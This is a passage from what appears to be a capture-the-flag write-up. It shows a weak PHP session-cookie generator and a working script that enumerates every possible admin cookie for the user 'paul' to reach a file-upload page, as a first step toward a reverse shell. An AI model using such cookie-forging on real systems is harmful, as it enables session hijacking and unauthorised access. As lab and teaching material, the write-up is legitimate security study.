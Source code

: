 # Getting initial reverse shell as www-data
## Generating cookie for paul as admin user to upload files
Source code for generating cookie is.
Note: Only paul as admin user can upload files and access file upload page.
```php
<?php
\/**
 * @param string $username  Username requesting session cookie
 *
 * @return string $session_cookie Returns the generated cookie
 *
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * *\/
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```
We can write php script to generate cookies for paul.
```php
<?php
$name = "paul";
function makesession($username,$seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
for($i = 0;$i < strlen($name); $i++){
    echo makesession($name,$i). "\xA";
}
```
Which gives following cookies.
